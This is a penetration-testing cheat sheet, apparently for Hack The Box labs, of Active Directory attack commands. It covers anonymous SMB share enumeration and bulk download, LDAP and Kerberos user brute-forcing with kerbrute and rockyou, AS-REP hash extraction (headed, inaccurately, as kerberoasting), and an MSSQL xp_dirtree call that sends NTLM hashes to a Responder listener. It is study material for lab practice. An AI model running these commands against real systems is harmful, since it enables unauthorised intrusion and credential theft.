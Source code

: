 # Recon
## SMB
```sh
crackmapexec smb authority.htb
```
### SMBMAP
##### List shares
```sh
smbmap -H forest.htb
```
##### List all files in share
```sh
smbmap -R SHARENAME -H IP 
```
##### Download specific file
```sh
smbmap -R SHARENAME -H IP -A FILENAME -q 
```

### Crackmapexec
```sh
crackmapexec smb authority.htb --shares
```
##### enum smb shares/users
```sh
crackmapexec smb .htb --shares -u "" -p ""
crackmapexec smb .htb --users -u "" -p ""
```
##### anonymous authentication smb 
```sh
crackmapexec smb authority.htb --shares -u "anything" -p ""
```
##### access share without password
```sh
smbclient -N //authority.htb/SHARE -U "anything"
```
##### Access share with password
```sh
smbclient -N //authority.htb/SHARE -U "USER" --password 'PASS'
```
##### download all files from smb share
```sh
smb: \> prompt
smb: \> recurse ON
smb: \> mget *
```
##### List all users
```sh
crackmapexec smb forest.htb  -u '' -p '' --users
```

##### Enum Everything
```sh
crackmapexec smb 10.10.10.1 -u 'anonymous' -p '' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```

## LDAP
Try to login with LDAP creds on different services. Try ex: winRM.
To receive the LDAP credentials, set up a listener and check connection on ldap. The credentials are often passed in plaintext.
##### Enumerate Domain
```sh
crackmapexec ldap authority.htb -u 'USER' -p 'PASS' --trusted-for-delegation  --password-not-required --admin-count --users --groups
```
##### Nmap enum 
```sh
sudo nmap -n -sV --script "ldap* and not brute" -p 389 IP
```
##### Query LDAP with creds
```sh
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'PASSWORD' -b "DC=support,DC=htb" "*"
```

## Kerberos
##### Nmap enum
```sh
nmap -p 88 --script=krb5-enum-users --script-args=krb5-enum-users.realm='manager.htb' IP
```
##### Bruteforce usernames
```sh
./kerbrute_linux_amd64 userenum --dc 10.129.105.163 -d manager.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
##### Bruteforce password
```sh
./kerbrute_linux_amd64 bruteuser --dc 10.129.38.49 -d htb.local /usr/share/wordlists/rockyou.txt mark
```
##### Get hashes for kerberoast
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.129.38.49 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```

### RPC
##### Anonymous login
```sh
rpcclient -U "" manager.htb
> enumdomusers
> enumdomgroups
> queryuser 0x45e
```
##### With creds
```sh
rpcclient -N -U "Operator%operator" manager.htb
```


### MsSQL
```sh
impacket-mssqlclient -dc-ip 10.129.105.163 -port 1433 manager.htb/Operator:operator@manager.htb -windows-auth

# start listener: sudo responder -I tun0
> xp_dirtree \\LOCAL_IP\uwu

> exec xp_dirtree 'C:\Users'
```


## Techniques 
https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/
